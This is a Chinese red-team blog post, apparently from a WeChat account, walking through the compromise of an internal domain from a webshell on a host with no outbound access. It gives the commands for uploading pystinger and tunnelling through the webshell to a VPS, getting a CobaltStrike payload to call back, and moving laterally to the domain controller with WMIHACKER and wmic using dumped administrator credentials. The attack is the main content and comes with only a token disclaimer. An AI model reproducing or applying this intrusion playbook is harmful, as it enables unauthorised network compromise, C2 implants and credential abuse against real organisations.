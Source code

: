 ##  [不出网的内网域渗透] 如何基于 http 隧道使用 pystinger 上线不出网机器到 CobaltStrike？

原创 渗透攻击红队  [ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

#内网渗透 13

#红队攻击 44

#域内渗透 30

#工具使用 18

渗透攻击红队

一个专注于红队攻击的公众号

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181644.png)  
  

大家好，这里是  **渗透攻击红队** ** ** 的第 **68**
篇文章，本公众号会记录一些红队攻击的案例，不定时更新！请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！

  

当跳板机器出网的情况下，我们可以随意内网渗透，只需注意免杀问题，那如何拿到一个 Webshell 不出网的情况下，如何进目标内网？如何上线到 C2？

  

 **不出网的内网域渗透**

##

 **前言**

  

首先是拿到了一个 Webshell：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181645.png)

通过初步判断当前机器 icmp 不出网：

![]()

那怎么办呢？我们可以基于 HTTP 隧道打！  

  

 **基于 HTTP 隧道上线到 CobaltStrike**

  

项目地址：https://github.com/FunnyWolf/pystinger

这个东东可以让 Webshell 实现内网 Socks4 代理，让不出网机器上线到 MSF/CS，使用 python 写的一款工具，支持目标站点
php、jsp（x）、aspx 三种脚本语言！

先上传对应的 Pystinger webshell 文件并成功访问：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181646.png)

然后我们还需要将 stinger_server.exe 上传到目标服务器 ，执行如下命令：  

  * 

    
    
    start c:\Windows\temp\cookie\stinger_server.exe 0.0.0.0

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181647.png)

然后将 stinger_client 上传到 vps ，执行如下命令  

  * 

    
    
    ./stinger_client -w http://saulgoodman.cn:9009//wls-wsat/proxy.jsp -l 0.0.0.0 -p 60000

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181648.png)

此时已将目标服务器的 60020 端口映射到 VPS 的 60020 端口了！  

这个时候我们 CobaltStrike 设置监听，http host 填写目标内网的  IP 地址：192.168.0.9，端口填写 60020:  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181649.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181650.png)

然后我们生成一个 exe，监听器就是刚刚设置的那个：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181651.png)

然后目标运行 exe 马，直接上线到 CobaltStrike：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181652.png)

  

 **内网信息搜集**

  

通过 nbtscan 对当前内网进行信息搜集发现当前内网是存在域环境的：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181653.png)

由于当前已经是 administrator 了，且是 Windows 2008 的机器，可以直接抓明文：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181654.png)

抓到了本地管理员和域管明文还有一些域用户的明文！既然域控是 192.168.0.2 这台，那么直接 WMI 横向把：

  * 

    
    
    shell cscript  c:\windows\temp\WMIHACKER.vbs /cmd 192.168.0.2 BExxxx\administrator vmxxxxx whoami 1

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181655.png)

直接拿到域控 system 权限！我们还可以用系统自带的 WMI 来执行命令，只不过命令不回显：

  *   *   * 

    
    
    wmic /node:192.168.0.2 /user:BEHxxxx\administrator /password:vm$xxxx process call create "cmd.exe /c ipconfig > c:\result.txt"            type \\192.168.0.2\c$\result.txt

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181656.png)

这篇文章主要就是想表达不出网也是可以对它进行内网渗透的，并不是遇到不出网环境就不能打内网，方法很多，知识面还是会决定你的杀伤链！

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181657.png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181658.png)

  

  

![]()点分享![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210806181659.png)点点赞![]()点在看

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

[不出网的内网域渗透] 如何基于 http 隧道使用 pystinger 上线不出网机器到 CobaltStrike？

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

